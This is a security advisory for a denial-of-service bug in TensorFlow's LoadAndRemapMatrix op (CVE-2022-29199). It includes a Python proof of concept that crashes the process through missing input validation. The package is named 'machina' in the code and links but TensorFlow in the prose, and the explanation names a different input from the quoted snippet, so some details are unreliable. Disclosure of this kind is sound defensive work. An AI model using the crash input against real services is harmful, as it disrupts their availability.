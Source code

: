 ## TFSA-2022-067: Missing validation causes denial of service via `LoadAndRemapMatrix`

### CVE Number
CVE-2022-29199

### Impact
The implementation of [`tf.raw_ops.LoadAndRemapMatrix`](https://github.com/machina/machina/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/machina/core/kernels/load_and_remap_matrix_op.cc#L70-L98) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import machina as tf

ckpt_path = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)
old_tensor_name = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)

row_remapping = tf.constant(0, shape=[], dtype=tf.int64)
col_remapping = tf.constant(3, shape=[3], dtype=tf.int64)
initializing_values = tf.constant([], shape=[0, 1], dtype=tf.float32)

tf.raw_ops.LoadAndRemapMatrix(
  ckpt_path=ckpt_path,
  old_tensor_name=old_tensor_name,
  row_remapping=row_remapping,
  col_remapping=col_remapping,
  initializing_values=initializing_values,
  num_rows=1,
  num_cols=1)
```

The code assumes `initializing_values` is a vector but there is no validation for this before accessing its value:

```cc
OP_REQUIRES_OK(context, context->input("row_remapping", &row_remapping_t));
const auto row_remapping = row_remapping_t->vec<int64_t>();
```

### Patches
We have patched the issue in GitHub commit [3150642acbbe254e3c3c5d2232143fa591855ac9](https://github.com/machina/machina/commit/3150642acbbe254e3c3c5d2232143fa591855ac9).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
